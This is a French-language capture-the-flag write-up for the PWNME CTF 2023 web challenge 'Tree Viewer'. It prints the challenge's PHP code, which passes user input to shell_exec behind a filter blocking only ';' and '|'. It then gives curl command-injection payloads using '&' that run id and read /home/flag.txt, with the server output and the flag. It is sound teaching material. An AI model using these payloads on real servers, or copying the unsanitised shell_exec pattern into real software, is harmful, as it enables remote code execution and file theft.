 ```yaml
---
title: "Tree Viewer | PWNME CTF 2023"
date: 2023-05-06T12:00:00Z
description: "Voici un writeup complet du premier challenge web du pwnme ctf"
tags: ["rce","php","injection"]
keywords: ["php", "injection","rce"]
---
```

[//]: <> (Wrote By Vozec 06/05/2023)
---

# Introduction du challenge:

```
Here, you can check the content of any directories present on the server.
Find a way to abuse this functionality, and read the content of /home/flag.txt
```

# Tree Viewer

Les sources de ce challenges ne sont pas fournies mais nous avons accès en */?source* au code php du backend:  

*http://13.37.17.31:51695/?source*
```html
<?php
$parsed = isset($_POST['input']) ? $_POST['input'] : "/home/";

preg_match_all('/[;|]/m', $parsed, $illegals, PREG_SET_ORDER, 0);
if($illegals){
    echo "Illegals chars found";
    $parsed = "/home/";
}

if(isset($_GET['source'])){
    highlight_file(__FILE__);
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tree Viewer</title>
</head>
<body>
    <a href="/?source">Source code</a>
    <hr/>
    <form action="/" method="post">
        <label for="input">Directory to check</label>
    <input type="text" placeholder="Directory to see" id="input" name="input" value="<?= $parsed ?>">
    </form>

    <h3>Content of <?= $parsed ?>: <?= shell_exec('ls '.$parsed); ?></h3>

</body>
</html>
```

On remarque rapidement la vulnérabilité :  

```php
shell_exec('ls '.$parsed);
```

En controlant le paramètre *$parsed*, nous avons une injection de commande dans le ``shell_exec`` ce qui mène à une ``RCE``.

Cette variable est issue du filtre du ``preg_match_all``:  
```php
preg_match_all('/[;|]/m', $parsed, $illegals, PREG_SET_ORDER, 0);
```

Le filtre empêche l'utilisation des charactères : ``;|``.

On peut donc utiliser ``&`` pour exécuter une commande dans ce contexte.

## POC:
```bash
curl -X POST http://13.37.17.31:51695/ --data-urlencode 'input=/home/& echo $(id) &'```
 *Résultats*:  
 ```html
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Tree Viewer</title>
 </head>
 <body>
     <a href="/?source">Source code</a>
     <hr/>
     <form action="/" method="post">
         <label for="input">Directory to check</label>
     <input type="text" placeholder="Directory to see" id="input" name="input" value="/home/& echo $(id) &">
     </form>

     <h3>Content of /home/& echo $(id) &: flag.txt
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 </h3>

 </body>
 </html>
 ```


## Flag:
```bash
curl -X POST http://13.37.17.31:51695/ --data-urlencode 'input=/home/& echo $(cat /home/flag.txt) &'
```  

 *Résultats*:  
 ```html
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Tree Viewer</title>
 </head>
 <body>
     <a href="/?source">Source code</a>
     <hr/>
     <form action="/" method="post">
         <label for="input">Directory to check</label>
     <input type="text" placeholder="Directory to see" id="input" name="input" value="/home/& echo $(cat /home/flag.txt) &">
     </form>

     <h3>Content of /home/& echo $(cat /home/flag.txt) &: Flag: PWNME{U53R_1NpU75_1n_5h3lL_3x3c_d3}
 flag.txt
 </h3>

 </body>
 </html>
 ```

```bash
PWNME{U53R_1NpU75_1n_5h3lL_3x3c_d3}
```
